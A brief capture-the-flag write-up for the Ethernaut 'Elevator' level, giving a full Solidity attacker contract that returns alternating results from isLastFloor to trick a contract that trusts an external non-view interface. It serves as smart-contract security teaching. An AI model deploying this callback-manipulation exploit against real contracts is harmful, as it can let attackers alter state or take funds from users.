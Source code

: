 # [11. Elevator](https://ethernaut.openzeppelin.com/level/0xaB4F3F2644060b2D960b0d88F0a42d1D27484687)

In this level, we will write the `Builder` contract which the elevator interacts with. However, in the same transaction we will return opposite boolean results for `isLastFloor` function.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface Elevator {
  function goTo(uint _floor) external;    
}

contract Building {
  bool toggleMe = true;
  
  function isLastFloor(uint) external returns (bool) {
    toggleMe = !toggleMe;
    return toggleMe;
  }

  function callElevator(address _elevator) public {
    Elevator(_elevator).goTo(1);
  }

}
```

The problem here is that Elevator did not specify `isLastFloor` to be a `view` function, which would prevent us from modifying the state like this. Another attack approach would be to return different results depending on the input data _without_ modifying state, such as via `gasLeft()`.
